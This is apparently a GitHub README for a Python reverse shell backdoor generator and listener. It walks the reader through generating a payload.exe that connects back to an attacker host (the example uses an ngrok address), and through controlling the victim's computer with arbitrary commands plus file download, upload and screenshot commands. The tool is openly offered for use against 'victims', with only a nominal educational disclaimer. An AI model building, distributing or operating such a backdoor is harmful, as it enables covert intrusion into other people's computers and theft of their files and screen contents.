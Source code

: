 
# Description
A python reverse shell backdoor generator alongside a TCP listener.

# Background
This a python backdoor generator. A backdoor is a script that gives you access to the victim's computer when the victim opens the backdoor/payload. When the user opens the exe,
a TCP connection is made to the listener pc (the attacker pc in this case). Thie listener pc will listen to incoming connections using a script found in this repository. This is
done only for educational purposes, and I take no responsibility or liability for own personal use.

# Guide
## 1. Run `setup.py`
This script prepares a standalone virtual enviroment for our generator to work with and installs the required dependencies and libraries from the `requirements.txt` file.
> Note:
>
> This script uses the subprocess library which will give it access to your shell/terminal to execute the needed commands.
>
> If you do not trust the script, make sure to check the code first and if still not satisfied, create a new virtual enviroment and download the needed libraries from `requirements.txt`

Navigate to the `config/` folder in the home directory of the repository and open your terminal so u could run `setup.py`

**Usage:**

```
$ python setup.py
```

If this script was executed successfully you should see a `venv` folder in the repository's home directory.

## 2. Use `generate.py`
This is the script used for generating reverse shell backdoors. All you have to do is specify the `LHOST` which is the **ip address or location** that you want the
reverse shell backdoor to connect to and the `LPORT` which is the **port** that you want the reverse shell backdoor to connect to.

**Usage:** 
```
$ python generate.py LHOST LPORT
```

**Real Example:**
```
$ python generate.py 2.tcp.ngrok.io 10827
```

1. **LHOST:** `2.tcp.ngrok.io`
2. **LPORT:** `10827`

After this command finishes execution. You should see:
1. An **executable of the generated reverse shell backdoor** `payload.exe` located in `output/executable`
2. The **source code of the generated reverse shell backdoor** `payload.py` located in `ouput/source`

## 3. Run `listen.py`
This is called a **listener**. This script is used to listen to incoming TCP connections from other devices. All you have to do is specify the `LHOST` which is
the **ip address or location** that you want to listen on and the `LPORT` which is the **port** that you want to listen on.

**Usage:** 
```
$ python listen.py LHOST LPORT
```

**Real Example:** 
```
$ python listen.py 0.0.0.0 5050
```

1. **LHOST:** `0.0.0.0`
2. **LPORT:** `5050`

> Note:
>
> It is **recommended** to use `0.0.0.0` or `127.0.0.1` as the listener's LHOST as it means listen on **the current host pc**.

After you run this script `listen.py, you should see a message `Listening on LHOST LPORT`. When the reverse shell backdoor that we generated gets opened, it will establish
a new connection to our host pc, which is already waiting and listening for new connections, and such a message should appear :

```
Established new connection: [ADDRESS] 192.168.1.6 [PORT] 5050
reverse_shell >>
```

This means that everything is working properly, and now you can control the victim's pc by typing in any cmd command.

## 4. Using The Reverse Shell

All the commands you normally use in your command prompt are available in the reverse shell, but there are some extra useful commands added to the reverse shell !

### 1. download
This command downloads any file from the directory (the victim's pc) you're currently in in the reverse shell to the directory in which `listen.py` is running.

**Usage:** 

```
reverse shell >> download image.png
```

### 2. upload
This command uploads any file from the directory in which `listen.py` is running to the directory (the victim's pc) you're currently in in the reverse shell.

**Usage:** 

```
reverse shell >> upload file.txt
```

### 3. snapshot
This command takes a screenshot of the current screen of the victim's pc and saves it to the directory (the victim's pc) you're currently in in the reverse shell.

**Usage:** 
```
reverse shell >> snapshot
```

# Extras
This was just for fun and educational purposes and I take no responsibility or liability for own personal use. Hope you like it.
